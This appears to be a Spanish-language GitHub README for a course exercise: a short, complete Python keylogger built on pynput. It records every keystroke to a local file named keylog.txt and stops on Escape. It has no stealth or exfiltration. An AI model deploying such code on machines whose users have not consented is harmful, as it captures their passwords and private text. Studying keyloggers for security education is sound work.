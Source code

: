 **#SI_T5_P1**

## Descripción
Este keylogger es una herramienta sencilla implementada en Python que registra las teclas presionadas por el usuario. Utiliza la biblioteca `pynput.keyboard` para escuchar los eventos del teclado `Listener´ y escribir las teclas presionadas `Key´ en un archivo de texto (`keylog.txt`).

## Funcionamiento
El keylogger captura las teclas presionadas por el usuario y las almacena en un archivo llamado `keylog.txt´. Cada vez que se presiona una tecla, también se verifica si es un espacio y se agrega al archivo `keylog.txt´. El programa se detiene cuando se presiona la tecla `escape`.

### Código
```python
from pynput.keyboard import Key, Listener

# Lista para almacenar las teclas presionadas
keys = []

# Función que se ejecuta cada vez que se presiona una tecla
def presionar_tecla(key):
    # Si la tecla presionada es la tecla espacio, agrega un espacio a la lista 'keys'
    if key == Key.space:
        keys.append(' ')
    else:
        # De lo contrario, agrega la tecla presionada a la lista 'keys' como una cadena de texto
        keys.append(str(key).replace("'", ""))
    # Llama a la función para escribir las teclas en un archivo
    convertir_string(keys)

# Función para escribir las teclas almacenadas en la lista 'keys' en un archivo
def convertir_string(keys):
    # Abre (o crea) el archivo 'keylog.txt' sobreescribiendo el archivo cada vez que es ejecutado por la (w)
    with open('keylog.txt', 'w') as logfile:
        # Escribe cada tecla de la lista 'keys' en el archivo
        for key in keys:
            logfile.write(key)

# Función que se ejecuta cada vez que se suelta una tecla
def soltar_tecla(key):
    # Si la tecla soltada es la tecla 'esc', retorna False para detener el listener
    if key == Key.esc:
        return False

# Inicializa y comienza el listener que escucha las teclas presionadas y soltadas
with Listener(on_press=presionar_tecla, on_release=soltar_tecla) as listener:
    listener.join()
